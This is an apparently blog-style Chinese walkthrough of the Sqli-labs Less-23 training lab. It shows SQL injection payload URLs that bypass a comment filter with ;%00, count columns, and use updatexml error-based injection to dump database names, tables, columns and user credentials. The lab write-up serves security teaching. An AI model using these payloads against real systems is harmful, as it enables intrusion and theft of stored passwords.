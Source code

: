 
# Sqli-labs-Less-23
![](https://img-blog.csdnimg.cn/20200723110838909.png#crop=0&crop=0&crop=1&crop=1&id=SkMVs&originHeight=92&originWidth=1075&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

## 方法一 %00截断注入
**首先根据提醒我们输入?id=1**<br />http://www.web.com/sql/Less-23/?id=1<br />登陆成功<br />![](https://img-blog.csdnimg.cn/20200721093611257.png#crop=0&crop=0&crop=1&crop=1&id=ZxILu&originHeight=119&originWidth=332&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**然后我们加上一个'后，报错**<br />http://www.web.com/sql/Less-23/?id=1'<br />![](https://img-blog.csdnimg.cn/20200721094002627.png#crop=0&crop=0&crop=1&crop=1&id=EQQc2&originHeight=40&originWidth=1224&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**然后我们尝试使用--+进行注释，继续报错**<br />http://www.web.com/sql/Less-23/?id=1'--+<br />![](https://img-blog.csdnimg.cn/20200721094103568.png#crop=0&crop=0&crop=1&crop=1&id=A2DRn&originHeight=25&originWidth=1216&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

分析一下源代码<br />在这里将#、--+进行了替换，替换为空格<br />![](https://img-blog.csdnimg.cn/20200721094241976.png#crop=0&crop=0&crop=1&crop=1&id=e5qt8&originHeight=143&originWidth=956&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用另外一种注释方法;%00，登录成功**<br />http://www.web.com/sql/Less-23/?id=1';%00<br />![](https://img-blog.csdnimg.cn/2020072109445669.png#crop=0&crop=0&crop=1&crop=1&id=KFDuR&originHeight=100&originWidth=254&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用order by 判断列数**<br />当order by为3时返回正确 说明有3列<br />http://www.web.com/sql/Less-23/?id=1' order by 3;%00<br />![](https://img-blog.csdnimg.cn/20200721101746886.png#crop=0&crop=0&crop=1&crop=1&id=d5DcP&originHeight=108&originWidth=269&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

以下步骤与Sqli-labs-Less-1相同1不进行详细叙述<br />注意：<br />Sqli-labs-Less-1中是--+<br />Sqli-labs-Less-23中注释是;%00


## 方法二 报错注入
**爆出当前数据库**<br />http://www.web.com/sql/Less-23/?id=1' or updatexml(1,concat(0x7e,(select database()),0x7e),1);%00<br />![](https://img-blog.csdnimg.cn/20200721101724927.png#crop=0&crop=0&crop=1&crop=1&id=mDqd4&originHeight=27&originWidth=266&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**爆出所有数据库**<br />http://www.web.com/sql/Less-23/?id=1' or updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x7e),1);%00<br />![](https://img-blog.csdnimg.cn/2020072110064979.png#crop=0&crop=0&crop=1&crop=1&id=JKszQ&originHeight=31&originWidth=471&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**可以使用substring()函数查看32位以后的数据**<br />http://www.web.com/sql/Less-23/?id=1' or updatexml(1,concat(0x7e,substring((select group_concat(schema_name) from information_schema.schemata),30,32),0x7e),1);%00<br />![](https://img-blog.csdnimg.cn/20200721100931892.png#crop=0&crop=0&crop=1&crop=1&id=DCEhn&originHeight=33&originWidth=466&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**爆出所有表**<br />http://www.web.com/sql/Less-23/?id=1' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1);%00<br />![](https://img-blog.csdnimg.cn/20200721101240984.png#crop=0&crop=0&crop=1&crop=1&id=zvIQi&originHeight=43&originWidth=478&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**爆出所有字段**<br />http://www.web.com/sql/Less-23/?id=1' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1);%00<br />![](https://img-blog.csdnimg.cn/20200721101335152.png#crop=0&crop=0&crop=1&crop=1&id=nj6tB&originHeight=26&originWidth=437&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**爆出账户，密码**<br />http://www.web.com/sql/Less-23/?id=1' or updatexml(1,concat(0x7e,(select group_concat(concat_ws('-',username,password)) from security.users),0x7e),1);%00<br />![](https://img-blog.csdnimg.cn/20200721101529520.png#crop=0&crop=0&crop=1&crop=1&id=kox81&originHeight=26&originWidth=470&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以此类推爆出所有数据**


## 思考
在less-1中我们使用：<br />Less-01：  union select 1,2, group_concat(schema_name) from information_schema.schemata --+ 可以执行<br />在less-23中<br />Less-23： union select 1,2, group_concat(schema_name) from information_schema.schemata ‘ 执行失败<br />修正：union select 1,2,(select group_concat(schema_name) from information_schema.schemata)’ 执行成功<br />闭合问题：执行shell可以发现：

此时如果我们不想使用括号的时候如何处理？<br />union select 1,2,group_concat(schema_name) from information_schema.schemata where ‘a’=‘a  这样就可以了，原因就是闭合的问题<br />在shell中执行可以看下：<br />select * from users where ‘a’=‘a’;  这样可以查询到所有的数据<br />select _ from users ;其实就是 select _ from users where true;
